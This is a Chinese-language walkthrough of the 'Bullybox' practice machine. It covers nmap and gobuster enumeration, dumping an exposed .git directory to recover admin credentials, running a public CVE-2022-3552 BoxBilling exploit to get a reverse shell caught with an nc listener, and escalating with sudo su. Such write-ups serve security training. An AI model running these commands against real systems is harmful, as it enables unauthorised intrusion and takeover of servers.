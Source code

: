 ```yaml
---
description: Easy - Linux / BoxBilling 4.22.1.5 / CVE-2022-3552 / sudo su提权
---
```


# ✔️ Bullybox

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -p- -oA bullybox 192.168.149.27 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将域名添加到hosts文件中：

```bash
echo "192.168.149.27   bullybox.local" | tee -a /etc/hosts
```

* 检查/robots.txt文件，发现一些隐藏目录，依次查看没有任何收获：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在80端口的登录界面进行注册：

```
- test@test.com
- fiii : Test123456
```

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 登录后并没有任何发现，只得知当前系统使用的是boxbilling程序：

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，这里发现一些/.git目录：

```bash
gobuster dir -u http://bullybox.local -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

* 使用git-dumper提取目标网站的git中的内容：

```bash
git-dumper http://bullybox.local/.git .
```

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 .png" alt=""><figcaption></figcaption></figure>

* 在提取出来的文件中，**bb-config.php**中发现管理员凭证：

```
- **admin ：Playing-Unstylish7-Provided**
- admin@bullybox.local
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用该有效凭证进入admin的管理界面后，获取到当前运行的软件BoxBilling及其版本号：**BoxBilling 4.22.1.5**

<figure><img src="../../.gitbook/assets/9 .png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据应用及其版本号，查询到公开漏洞：CVE-2022-3552
* BoxBilling<=4.22.1.5 - Remote Code Execution

<figure><img src="../../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [https://www.exploit-db.com/exploits/51108](https://www.exploit-db.com/exploits/51108)

<figure><img src="../../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了相关PoC：

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 修改脚本并利用：

```bash
python3 cve-2022-3552.py -d http://bullybox.local/ -u 'admin@bullybox.local' -p 'Playing-Unstylish7-Provided'

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### ROOT

* 直接切换至root用户：

```bash
sudo su
```

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>
